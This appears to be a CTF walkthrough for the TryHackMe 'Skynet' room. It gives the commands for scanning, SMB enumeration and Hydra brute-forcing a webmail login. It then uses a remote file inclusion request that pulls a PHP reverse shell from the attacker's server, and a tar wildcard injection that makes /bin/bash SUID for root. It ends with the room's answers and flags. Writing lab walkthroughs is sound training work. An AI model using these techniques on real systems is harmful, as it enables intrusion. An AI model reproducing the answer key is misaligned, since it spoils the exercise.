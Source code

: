 # [Skynet](https://tryhackme.com/r/room/skynet)

![Skynet](./images/Skynet.png)

[Skynet](https://tryhackme.com/r/room/skynet) is listed as an easy room. A vulnerable Terminator themed Linux machine. An overview of what we’ll be using is listed here:

* Nmap
* Gobuster
* enum4linux
* Hydra
* Searchsploit
* Reverse Shell

![IP](./images/IP.png)

## Deploy and compromise the vulnerable machine!

![logo](./images/logo.png)

Are you able to compromise this Terminator themed machine?

![blog](./images/blog.png)

You can follow our official walkthrough for this challenge on [our blog](https://blog.tryhackme.com/skynet-writeup/).

### Enumeration & Exploit

* Port scan with **Nmap**

	```
	nmap -sC -sV $IP -oN nmap-scan
	```

	![nmap](./images/nmap.png)

* Directory scan with **Gobuster**

	```
	gobuster dir -u $IP -w /usr/share/wordlists/dirb/big.txt -t50 | tee gobuster-default
	```

	![gobuster](./images/gobuster.png)

* Enumeration SMB with **enum4linux**
	
	```
	enum4linux $IP
	```

* Connect to smbclient

	```
	smbclient //$IP/anonymous
	ls
	```

	![login](./images/login.png)

* Download and open `attention.txt` file

	![attention](./images/attention.png)

* Change to logs directory and download log file

	![logs](./images/logs.png)

* Brute force login with **Hydra**

	```
	hydra -l milesdyson -P log1.txt $IP http-post-form "/squirrelmail/src/redirect.php:login_username=^USER^&secretkey=^PASS^:incorrect"
	```

	![hydra](./images/hydra.png)

* Login to webmail with our credential

	![webmail](./images/webmail.png)

* Open email `Samba Reset Password` & get the password smb

	![password](./images/password.png)

* Connect to smbclient with `milesdyson` credential

	```
	smbclient -U milesdyson //$IP/milesdyson
	```

	![smbclient](./images/smbclient.png)

* Download `importart.txt` on noted folder and view the file

	![important](./images/important.png)

* Directory scan on a scret page with **Gobuster**

	```
	gobuster dir -u $IP/45kra24zxs28v3yd -w /usr/share/wordlists/dirb/common.txt -t50 | tee gobuster-secret
	```

	![secret-page](./images/secret-page.png)

* Open the webpage `http://10.10.33.100/45kra24zxs28v3yd/administrator/`

	![web-cuppa](./images/web-cuppa.png)

* Searchsploit for `cuppa`

	![searchsploit](./images/searchsploit.png)

* Download `searchsploit` file & Read the file

	```
	searchsploit -m 25971
	```

	![download](./images/download.png)

	![payload](./images/payload.png)

* Open `http://revshells.com` and create PHP reverse shell with our machine IP and Port
	
	![revshells](./images/revshells.png)

* Start Listener on attacker machine

	```
	nc -lvnp 8888
	```

* Start HTTP server to in the folder `revshell.exe`

	```
	python3 -m http.server
	```

	![http.server](./images/http.server.png)

* Request `revshell.exe` link to get reverse shell

	```
	http://10.10.237.99/45kra24zxs28v3yd/administrator/alerts/alertConfigField.php?urlConfig=http://10.4.60.166:8000/revshell.php
	```

	![web-access](./images/web-access.png)

	![revshells.download](./images/revshells.download.png)

	![get-shell](./images/get-shell.png)

* Spawn a shell with python

	```
	python -c 'import pty;pty.spawn("/bin/bash")'
	```

	![python-spawn](./images/python-spawn.png)

* Get the `user.txt`

	![user-txt](./images/user-txt.png)

* Now let’s see what we have in miles’ home directory

	![backups](./images/backups.png)

* There is a backup script (backup.sh) that compresses the entire /var/www/html directory with tar and saves the archive to miles’ home directory. The script is executed by root every minute, we can see in crontab

	![crontab](./images/crontab.png)

* We can perfom a wildcard injectioncan to execute a privileged shell with tar executed by root as follows

	```
	cd /var/www/html
	printf '#!/bin/bash\nchmod +s /bin/bash' > shell
	echo "" > "--checkpoint-action=exec=sh shell"
	echo "" >> --checkpoint=1
	```

	![privileged](./images/privileged.png)

* Wait for 1 minute and executed `/bin/bash -p` and get a root shell

	![root](./images/root.png)

* Get the `root.txt`

	![root-txt](./images/root-txt.png)

### Answer the questions below

* What is Miles password for his emails?

	`cyborg007haloterminator`

	![hydra](./images/hydra.png)

* What is the hidden directory?

	`/45kra24zxs28v3yd`

	![important](./images/important.png)

* What is the vulnerability called when you can include a remote file for malicious purposes?

	`Remote File Inclusion`

	![searchsploit](./images/searchsploit.png)

* What is the user flag?

	`7ce5c2109a40f958099283600a9ae807`

	![user-txt](./images/user-txt.png)

* What is the root flag?

	`3f0372db24753accc7179a282cd6a949`

	![root-txt](./images/root-txt.png)


